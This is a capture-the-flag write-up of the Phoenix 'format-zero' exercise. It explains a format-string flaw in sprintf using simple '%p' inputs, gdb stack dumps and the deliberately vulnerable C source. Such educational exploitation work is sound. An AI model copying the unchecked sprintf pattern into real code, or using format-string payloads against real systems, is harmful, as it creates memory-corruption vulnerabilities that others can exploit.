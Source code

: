 # Phoenix format-zero
https://exploit.education/phoenix/format-zero/
## Static Analysis
##### Result
`Well done, the 'changeme' variable has been changed!`
##### Setup
```
https://hub.docker.com/r/duckll/ctf-box/
docker pull duckll/ctf-box
docker run -idt --name ctf duckll/ctf-box
```
The above setup does not use `privileged` mode.  I have to confirm but that seems to bring in `ASLR`.  This makes debugging a little tricker as memory addresses ( like the `Stack` ) change every time you run the program.  This happens even if you type: `gef➤  set disable-aslr`:
```
gef➤  r
Starting program: /root/format_zero
warning: Error disabling address space randomization: Operation not permitted
```
##### Run container
```
docker start ctf
docker container exec -it ctf bash
```

##### Background
I tried a different setup for this challenge. I used a Docker container ( in `non-privileged` mode). This gave some excellent out-of-the-box stuff like `gdb's enhanced debugger`, nice `vi` color coding, `gcc` for compiling code, etc.

Next compile the code.  I didn't want the `compiler` to auto-insert `overflow` defences or add `ASLR`:

`gcc -fno-stack-protector -z execstack -no-pie -o format_zero format_zero.c`

You get a big clue of the issue when you compile the code.  Where is the ` format argument`?  For example `%s` (string) or `%d` (integer).
```
warning: format not a string literal and no format arguments [-Wformat-security]
sprintf(locals.dest, buffer);
```
##### What C API to focus on?
```
[0x00400560]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400510 GLOBAL FUNC       puts
2   0x00400520 GLOBAL FUNC       errx
3   0x00000000 GLOBAL FUNC       __libc_start_main
4   0x00400530 GLOBAL FUNC       fgets
5   0x00000000 WEAK   NOTYPE     __gmon_start__
6   0x00400540 GLOBAL FUNC       sprintf
7   0x00400550 GLOBAL FUNC       exit
```

`sprintf` was infamous for a `format string` vulnerability.  For example, you could print a certain `stack` with:

```
/* print the Stack */
printf ("%08x %08x %08x %08x %08x\n");
```
#### man snprintf

> int snprintf(char * restrict str, size_t size, const char * restrict format, ...);
>
> sprintf(), snprintf(), vsprintf(), and vsnprintf() write to
>      the character string str

The `...` tell you it is `variadic function`.  You can pass in any number of arguments.

##### Format String Exploitation
I got lucky with my first guess:
```
root@b8d0276ae4c8:~# ./format_zero
Welcome to https://exploit.education
%p %p %p
Well done, the 'changeme' variable has been changed!
```
Or a better way to pass it in, as run-time:
```
echo "%p %p" | ./format_zero
Well done, the 'changeme' variable has been changed!
```
Now try to find the `segmentation fault`:
```
python -c 'print "%p"*4' | ./format_zero
Well done, the 'changeme' variable has been changed!
```
No luck, let's increase the number of pointers to print:
```
python -c 'print "%p"*11' | ./format_zero
Segmentation fault
```

##### What is happening?
After some renaming of variables and settings Types, the `decompile view` in `Ghidra` is easy to read:

![ghidra_relabelled_main](/images/2020/12/ghidra-relabelled-main.png)

##### Debugging the normal flow
Ok, first let's make it easier to see what is happening on the `Stack`.
```
locals.changeme = 99;
```
Now get gdb setup:
```
gef➤  b *main + 113
gef➤  run
< enter "AAAA" when prompted >
```
THe breakpoint fires here:
```
gef➤  x/6i $pc-5
   0x4006b3 <main+108>:	call   0x400540 <sprintf@plt>
=> 0x4006b8 <main+113>:	mov    eax,DWORD PTR [rbp-0x10]
   0x4006bb <main+116>:	test   eax,eax
   0x4006bd <main+118>:	je     0x4006cd <main+134>
   0x4006bf <main+120>:	lea    rdi,[rip+0x102]        # 0x4007c8
   0x4006c6 <main+127>:	call   0x400510 <puts@plt>
```
To find `locals.changeme = 99` on the `Stack`:
```
gef➤  find $sp, +96, 99
0x7ffd32b6d020
1 pattern found.
```

Print stack from Stack Pointer with: `x/24w $sp` ( works on both `x32/x64`):

```
gef➤  x/24w $sp
0x7ffd32b6cfe0:	0x32b6d118	0x00007ffd	0x00f0b5ff	0x00000001
0x7ffd32b6cff0:	0x41414141	0x0000000a	0x0040073d	0x00000000    <--  user input "AAAA\n"
0x7ffd32b6d000:	0x41414141	0x0000000a	0x00000000	0x00000000
0x7ffd32b6d010:	0x004006f0	0x00000000	0x00400560	0x00000000
0x7ffd32b6d020:	0x00000063	0x00007ffd	0x00000000	0x00000000     <-- locals.changeme
0x7ffd32b6d030:	0x004006f0	0x00000000	0x31325b97	0x00007f1c
```

0x4006b3 <main+108>       call   0x400540 <sprintf@plt>
→   0x4006b8 <main+113>       mov    eax, DWORD PTR [rbp-0x10]

Then try and find the input:
```
gef➤  find $sp, +96,0x41414141
0x7ffd85571c20
0x7ffd85571c30
2 patterns found.
```
`gef` helpfully tells you that the `RSI register` is pointing to that address which taints the inputted string: `AAAA`
```
$rsi   : 0x00007ffd85571c20  →  0x0000000a41414141 ("AAAA"?)
```
Or, you can use:
```
gef➤  x/s $rsi
0x7ffd85571c20:	"AAAA\n"
```

##### Debugging the altered code flow
The instructions don't change.  
```
gef➤  r
Starting program: /root/format_zero
warning: Error disabling address space randomization: Operation not permitted
Welcome to brought to you by https://exploit.education
%p %p %p
```
Printing the stack:
```
gef➤  x/24w $sp
0x7ffed7a558c0:	0xd7a559f8	0x00007ffe	0x00f0b5ff	0x00000001
0x7ffed7a558d0:	0x25207025	0x70252070	0x0040000a	0x00000000
0x7ffed7a558e0:	0x66377830	0x37646566	0x38353561	0x30203064
0x7ffed7a558f0:	0x30376178	0x30323532	0x35323037	0x30373032
0x7ffed7a55900:	0x65783020	0x37363339	0x00000a39	0x00000000
0x7ffed7a55910:	0x004006f0	0x00000000	0x4f930b97	0x00007fe8
```


https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf
> So what happens to the stack when a format string is specified with no corresponding variable on stack??!!  It will start to pop data off the stack from where the variables should have been located.

##### Source code
```

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```
